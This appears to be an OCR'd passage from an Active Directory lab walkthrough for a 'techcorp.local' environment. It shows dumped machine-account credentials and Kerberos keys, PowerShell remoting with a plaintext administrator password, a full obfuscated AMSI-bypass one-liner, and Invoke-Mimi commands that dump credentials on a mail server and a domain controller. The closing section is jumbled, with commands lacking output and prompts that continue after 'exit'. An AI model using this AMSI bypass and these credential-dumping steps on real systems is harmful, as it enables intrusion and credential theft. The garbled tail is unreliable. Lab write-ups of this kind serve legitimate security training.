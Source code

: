 ```
SID               : S-1-5-96-0-0

         * Username : US-MAILMGMT$ 👤
         * Domain   : us.techcorp.local
         * Password : B_m3`Y;Rg:!pB)rM>nGYT7w^0/!CvL1@@+vA%:ajlT7@t@ESSs0*Vmg_9qyrcccQbdG-PLPw*PzNoPu`n$(*$2+O)'\HiL;VD.4N;X0$Qv%r KKNy"a:O]ES 🔑
         * Key List :
           aes256_hmac       2a03dcfd67a30b4565690498ebb68db8de3ff27473cc7ad3590fc8f8a27335f5
           aes128_hmac       65c0b72504e134531fe37b3e761b92a0
           rc4_hmac_nt       6e1c353761fff751539e175a8393a941 🔑

[SNIP]
```

**PowerShell Remoting and Invoke-Mimi**

We will use Invoke-Mimi on `us-mailmgmt` to extract credentials.

```
PS C:\AD\Tools> $passwd = ConvertTo-SecureString '9};,)J6p2[67[3' -AsPlainText -Force

PS C:\AD\Tools> $creds = New-Object System.Management.Automation.PSCredential("us-mailmgmt\administrator", $passwd)

UserName                                      Password
--------                                      --------
us-mailmgmt\administrator System.Security.SecureString

PS C:\AD\Tools> $mailmgmt = New-PSSession -ComputerName us-mailmgmt -Credential $creds
```

```
PS C:\AD\Tools> Enter-PSSession $mailmgmt

[us-mailmgmt]: PS C:\Users\Administrator\Documents>
🚀

[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
Administrator 👤

[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
US-MAILMGMT 🖥️
```

⭐ We need to disable AMSI for the PSSession so that we can use the stock `Invoke-Mimi.ps1` script.
To avoid disabling AMSI, you can use modified Invoke-Mimi instead.

```
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
PS C:\AD\Tools>
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'